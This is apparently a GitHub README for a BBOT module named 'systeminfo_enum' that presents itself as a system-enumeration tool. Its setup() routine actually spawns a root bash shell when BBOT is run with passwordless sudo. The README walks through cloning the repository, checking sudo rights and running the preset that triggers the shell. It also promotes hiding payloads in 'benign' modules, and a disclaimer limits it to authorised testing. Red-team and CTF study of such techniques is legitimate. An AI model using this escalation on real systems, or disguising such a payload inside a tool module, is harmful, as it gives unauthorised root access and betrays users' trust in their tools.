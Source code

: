 # 🧨 BBOT Privilege Escalation Module: `systeminfo_enum`

This project demonstrates how a seemingly harmless module for **BBOT (Bighuge BLS OSINT Tool)** can be used to **gain root shell access** when BBOT is executed with elevated privileges. BBOT is a powerful open-source reconnaissance and attack surface mapping framework developed by [Black Lantern Security](https://github.com/blacklanternsecurity/bbot).

> ⚠️ For educational, red team, or CTF use **only**. Do **not** use on systems you don't have explicit permission to test.

---

## 🧬 Overview

`systeminfo_enum` is a custom BBOT module that:
- **Appears** to enumerate system information
- **Actually** spawns a `bash -p` root shell via `setup()` when BBOT starts the scan

---

## 🗂️ File Structure

```bash
.
├── systeminfo_enum.py       # The module itself (payload lives here)
└── preset.yml               # BBOT preset that loads this module
```

---

## ⚙️ Usage

### 🔧 1. Clone the Repo

```bash
git clone https://github.com/Housma/bbot-privesc.git
cd bbot-privesc
```

### 🔐 2. Check if You Have Sudo Access to BBOT Binary

Run the following to check your sudo permissions:

```bash
sudo -l
```

Example output:

```
Matching Defaults entries for kali on :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User kali may run the following commands on :
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

This means you can run BBOT as root without a password — which is **required** to trigger the privilege escalation.

### 🚀 3. Run BBOT with the Module

```bash
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

---

## 📁 About `module_dirs`

This project uses BBOT’s `module_dirs` feature to load the module locally:

```yaml
module_dirs:
  - .
```

This tells BBOT to look for the module in the **current working directory**. Just make sure you're inside this folder when running BBOT.

### ❗ Running from another location?

Update `preset.yml`:

```yaml
module_dirs:
  - /full/path/to/this/folder
```

---

## 💥 What Happens

As soon as BBOT runs, `systeminfo_enum` is loaded, and:

- `setup()` executes automatically
- It spawns a root shell via `pty.spawn(["/bin/bash", "-p"])`
- You are dropped into a **fully privileged shell session**

---

## 🧠 Red Team Use Cases

- Local privilege escalation via trusted recon tools
- Payload embedding in “benign” BBOT modules
- Social engineering + tool trust exploitation
- Living-off-the-land (LOTL) attacks

---

## ⚠️ Disclaimer

This project is intended for **ethical hacking**, **education**, and **authorized security assessments** only.  
The author is not responsible for any misuse of this code.

---
